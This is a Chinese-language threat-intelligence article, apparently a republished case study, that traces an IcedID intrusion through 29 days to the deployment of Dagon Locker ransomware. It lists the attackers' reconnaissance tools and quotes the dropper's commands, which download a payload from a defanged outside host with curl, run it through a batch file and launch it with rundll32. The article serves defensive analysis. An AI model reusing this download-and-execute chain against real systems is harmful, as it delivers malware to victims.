 #  从最初的漏洞利用到最终的部署勒索软件 历时29天   
 网络安全应急技术国家工程中心   2024-05-06 15:40  
  
A网络安全专家仔细追踪了一次复杂的勒索软件攻击的时间线，从最初的漏洞利用到部署 Dagon Locker 勒索软件历时了 29 天。  
  
该案例研究不仅阐明了网络犯罪分子的效率和持久性，还强调了组织当今面临的网络威胁不断变化的情况。  
# 演变与升级  
  
这次攻击始于通过 IcedID 进行网络渗透。IcedID 是一种臭名昭著的恶意软件，最初设计用于银行欺诈，但后来演变为一种用于更广泛网络犯罪活动的多功能工具。  
  
该恶意软件通过欺骗性电子邮件传播，诱使员工下载恶意 JavaScript 文件。  
  
一旦进入系统，IcedID 通过与命令和控制服务器通信建立立足点，为进一步的恶意活动奠定基础。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wpkib3J60o2ic1t6NhQl2tZZrJ5JupcQwYdbF0vYDZzylmicaBH9HgqZDtlrRl2c1eKrnS670kyTPvqudOu6LVIfw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
执行  
# 工具部署  
  
在接下来的几天里，攻击者部署了各种工具来保持持久性并在网络上横向移动。  
  
Rclone、Netscan、Nbtscan、AnyDesk、Seatbelt、Sharefinder 和 AdFind 用于侦察网络环境并为最终有效负载做好准备。  
  
此阶段至关重要，因为它允许攻击者绘制网络图、识别有价值的目标并战略性地规划勒索软件部署。  
  
本案例研究根据 DFIR 报告的见解对每个攻击阶段进行了详细分析。  
  
攻击者最初通过 IcedID 恶意软件获得访问权限，通常通过包含恶意附件或链接的网络钓鱼电子邮件进行分发。  
  
此阶段的主要目标是在网络内建立立足点而不发出警报。  
# 执行  
  
初次访问后，恶意软件会在主机系统中永久安装脚本，为部署更多有效负载和更深层次的网络渗透奠定了基础。  
  
当用户执行下载的 JavaScript 文件 Document_Scan_468.js 时，以下步骤会发生：  
  
1.使用 curl 命令创建 bat 文件以从 moashraya[.]com 下载 IcedID 有效负载。  
  
C:\Windows\System32\cmd.exe” /c echo curl https://moashraya[.]com/out/t.php –output “%temp%\magni.waut.a” –ssl no-revoke –insecure –location > “%temp%\magni.w.bat  
  
2.执行批处理脚本。  
  
cmd.exe /c “%temp%\magnu.w.bat”  
  
3.下载后，文件 magni.waut.a 被重命名为 magni.w。  
  
cmd.exe /c ren “%temp%\magni.waut.a” “magni.w”  
  
4.使用 rundll32.exe，它使用下载并重命名的文件 magni.w 中的参数 \k arabika752 执行函数 scab。  
  
rundll32 “%temp%\magni.w”, scab \k arabika752  
  
攻击者通过使用复杂的持久性机制（例如注册表修改和计划任务）来确保他们继续存在于网络中。  
  